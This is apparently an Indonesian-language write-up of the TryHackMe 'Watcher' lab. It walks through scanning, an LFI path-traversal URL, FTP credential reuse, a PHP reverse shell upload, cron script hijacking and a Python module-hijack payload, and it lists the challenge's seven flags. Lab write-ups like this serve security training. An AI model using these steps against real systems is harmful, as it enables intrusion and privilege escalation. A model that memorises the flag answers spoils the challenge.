# Watcher — TryHackMe Writeup

**Target:** Watcher  
**Platform:** TryHackMe  
**Difficulty:** Medium  
**Kategori:** Web Enumeration, LFI, FTP, Cron Job, Python Module Hijacking, Privilege Escalation

---

## Recon

Dimulai dengan Rustscan untuk melakukan port scanning.

```bash
rustscan -b 2000 --scripts none -t 5000 -a TARGET_IP
```

Dilanjutkan dengan Nmap untuk enumerasi service pada port yang terbuka.

```bash
nmap -sC -sV -sT -p21,22,80 -T4 TARGET_IP
```



---

## Web Enumeration

Website berjalan di port 80. Saya coba cek dan melihat-lihat beberapa path yang tersedia, dan menemukan bahwa website menggunakan PHP. Karena itu saya menjalankan ffuf di background untuk melakukan directory fuzzing dengan extension `.php` dan `.txt`.

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -u http://TARGET_IP/FUZZ -e .php,.txt -fs 4826,278 -t 200
```



Dari hasil fuzzing, saya menemukan flag pertama dan sebuah secret file di `/robots.txt`.

```text
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

Saat saya mencoba mengakses file tersebut, ternyata forbidden. Saya kemudian mencari workaround lain dan menemukan kerentanan LFI.



Saya berhasil membaca `/secret_file_do_not_read.txt` menggunakan LFI.

```text
http://TARGET_IP/post.php?post=../../../var/www/html/secret_file_do_not_read.txt
```



Di dalam secret file tersebut terdapat credential FTP. Saya kemudian mencoba menggunakan credential tersebut untuk login.



Saya berhasil login dan mendapatkan flag kedua.

---

## Initial Foothold — FTP + LFI

Dari secret message terdapat path untuk mengakses file FTP. Dari sini saya mencoba memanfaatkan LFI untuk mengakses file yang di-upload melalui FTP.

Sebelum mencoba meng-upload reverse shell, saya terlebih dahulu meng-upload sesuatu untuk memastikan file tersebut dapat diakses melalui LFI.



Kemudian saya mengakses file tersebut melalui LFI.



File yang saya upload berhasil diakses. Karena itu saya mencoba meng-upload PHP reverse shell.



Setelah berhasil mendapatkan shell, saya mencoba melakukan enumerasi dan menemukan beberapa user:

```text
drwxr-xr-x  6 mat    mat    4096 Dec  3  2020 mat
drwxr-xr-x  6 toby   toby   4096 Dec 12  2020 toby
drwxr-xr-x  3 ubuntu ubuntu 4096 Aug 16 20:08 ubuntu
drwxr-xr-x  5 will   will   4096 Dec  3  2020 will
```

Di `/home/toby` terdapat `note.txt` yang berisi:

```text
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

Di `/home/toby/jobs` terdapat `cow.sh`:

```text
-rwxr-xr-x 1 toby toby   46 Dec  3  2020 cow.sh
```



---

## Lateral Movement — User `mat`

Selanjutnya saya mengecek `sudo -l` sebagai user `www-data`.

```text
Matching Defaults entries for www-data on ip-10-48-146-247:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User www-data may run the following commands on ip-10-48-146-247:
    (toby) NOPASSWD: ALL
```

User `www-data` memiliki hak sudo tanpa password untuk menjalankan command sebagai `toby`.

Karena cow.sh dimiliki oleh toby, user tersebut memiliki permission untuk memodifikasi script, saya memanfaatkan akses tersebut untuk memodifikasi script.

Selanjutnya saya mengecek cron job dan menemukan:

```text
*/1 * * * * mat /home/toby/jobs/cow.sh
```

Cron menjalankan script tersebut setiap menit sebagai `mat`. Saya kemudian memodifikasi `cow.sh` dengan reverse shell. Ketika cron mengeksekusi script tersebut, saya mendapatkan reverse shell sebagai `mat`.



---

## Lateral Movement — User `will`

Setelah mendapatkan shell sebagai `mat`, saya langsung mengecek `sudo -l`.

Hasilnya:

```text
(will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

Dari `will_script.py`, terlihat bahwa script tersebut dapat dijalankan sebagai user `will`, tetapi hanya beberapa command yang di-whitelist:

```python
whitelist = ["ls -lah", "id", "cat /etc/passwd"]
```

Namun, `will_script.py` melakukan import dari `cmd.py`, dan file `cmd.py` dimiliki oleh `mat`. Artinya saya dapat memodifikasi isi `cmd.py`.

Permission kedua file tersebut:

```text
-rw-r--r-- 1 mat  mat   133 Dec  3  2020 cmd.py
-rw-r--r-- 1 will will  208 Dec  3  2020 will_script.py
```

Saya kemudian mengganti isi `cmd.py` dengan payload:

```bash
cat > /home/mat/scripts/cmd.py <<'EOF'
import os
os.system('/bin/bash')

def get_command(num):
    return "id"
EOF
```

Setelah payload dibuat, yang perlu dilakukan adalah men-trigger `will_script.py`. Karena `will_script.py` melakukan import terhadap `cmd.py`, `cmd.py` akan dieksekusi terlebih dahulu sebelum whitelist dijalankan.

Dengan begitu, `os.system('/bin/bash')` akan menghasilkan shell sebagai user `will`.



---

## Root — SSH Key

Saat melakukan enumerasi lebih lanjut sebagai `will`, saya menemukan `key.b64` di `/opt`.



Saya mencoba melakukan decoding terhadap file tersebut, kemudian menggunakan hasilnya untuk koneksi SSH.

Login SSH berhasil dan saya mendapatkan root shell.



---

## Flags

### Flag 1

```text
FLAG{robots_dot_text_what_is_next}
```

### Flag 2

```text
FLAG{ftp_you_and_me}
```

### Flag 3

```text
FLAG{lfi_what_a_guy}
```

### Flag 4

```text
FLAG{chad_lifestyle}
```

### Flag 5

```text
FLAG{live_by_the_cow_die_by_the_cow}
```

### Flag 6

```text
FLAG{but_i_thought_my_script_was_secure}
```

### Flag 7

```text
FLAG{who_watches_the_watchers}
```

